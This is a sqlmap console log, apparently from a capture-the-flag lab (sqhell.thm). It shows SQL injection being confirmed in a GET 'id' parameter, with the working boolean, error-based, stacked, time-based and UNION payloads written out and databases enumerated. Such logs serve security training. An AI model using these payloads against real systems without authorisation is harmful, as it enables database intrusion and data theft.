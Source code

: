 ```text
[22:41:35] [INFO] GET parameter 'id' is 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)' injectable 
[22:41:35] [INFO] testing 'MySQL inline queries'
[22:41:35] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[22:41:35] [WARNING] time-based comparison requires larger statistical model, please wait................ (done)
[22:41:46] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 stacked queries (comment)' injectable 
[22:41:46] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[22:41:56] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[22:41:56] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[22:41:56] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[22:41:56] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[22:41:56] [INFO] target URL appears to have 4 columns in query
[22:41:56] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 52 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=2 AND 7533=7533

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: id=2 AND GTID_SUBSET(CONCAT(0x716a6b7071,(SELECT (ELT(3773=3773,1))),0x716a767071),3773)

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: id=2;SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=2 AND (SELECT 1146 FROM (SELECT(SLEEP(5)))RxrU)

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: id=-3834 UNION ALL SELECT NULL,CONCAT(0x716a6b7071,0x52756b6441764b664548654d68494b726b4477706d7955444c66446a50665864577a784e77435848,0x716a767071),NULL,NULL-- -
---
[22:41:58] [INFO] the back-end DBMS is MySQL
[22:41:58] [WARNING] potential permission problems detected ('command denied')
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 5.6
[22:41:58] [INFO] fetching database names
available databases [2]:
[*] information_schema
[*] sqhell_5
[22:41:59] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/sqhell.thm'
[*] ending @ 22:41:59 /2021-06-10/
```

